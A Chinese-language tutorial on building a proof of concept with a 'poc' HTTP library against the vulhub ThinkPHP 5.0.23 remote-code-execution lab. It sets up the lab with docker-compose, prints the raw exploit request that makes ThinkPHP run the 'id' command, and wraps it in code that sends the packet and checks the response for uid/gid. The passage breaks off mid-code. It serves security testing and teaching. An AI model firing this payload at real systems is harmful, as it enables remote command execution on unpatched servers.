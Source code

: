 **注意: 我们使用 [`vulhub`中 ThinkPHP 框架的靶场作为目标靶场](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)**

通过对靶场的了解，我们通过

```bash
git clone https://github.com/vulhub/vulhub --depth 1
cd vulhub/thinkphp/5.0.23-rce
docker-compose up -d
```

来启动靶场，然后阅读 `README`，我们发现以下数据包是关键 PoC

```http
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

针对这个数据包，我么可以有下面主要三种方法来构造 PoC，举最简单的例子。

### 使用 `poc` 构建 PoC

由于绝大部分的 Web 类 PoC 都是发送一个数据包，检查结果。因此我们可以定向针对这种情况做优化。

例如，我们可以精准替换掉数据包中参数的内容，而不需要专门去构造一个数据包的各种其他 "无关" 的参数。

最简单暴力的就是，我们直接发送一个数据包！

在如下例子中，我们通过 `func poc.HTTP(packetRaw: string|[]byte, extraParams ...opt) (responseRaw: []byte, requestRaw: []byte, err error)` 这个函数可以直接发送一个数据包。

遇到需要替换的部分，可以使用 `{{param(name)}}` 标签来标记，然后标记中 `param()` 中括号中的内容是我们需要替换的参数名称。

例如如下案例，我们在 `Host: {{param(target)}}` 中标记了参数，通过 `poc.HTTP(packet, http.params({"target": "localhost:8080"}))` 中的 `http.params` 可以替换掉标记的内容。

从而构建一个完整的数据包，这个数据包可以直接通过 `poc.HTTP` 发送出去，把最最原始的结果返回给用户。

返回的内容有三个参数，分别是

1. response 的原始数据包内容
1. request 原始数据包内容
1. error 失败原因（如果没有失败，这个值为 `nil`） 

具体代码如下

```go
rsp, req, err := poc.HTTP(`
POST /index.php?s=captcha HTTP/1.1
Host: {{param(target)}}
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
`, poc.params({
    "target": "localhost:8080",
}))
die(err)

if re.Match(`((uid\=\d*)|(gid\=\d*)|(groups=\d*))`, rsp) {
```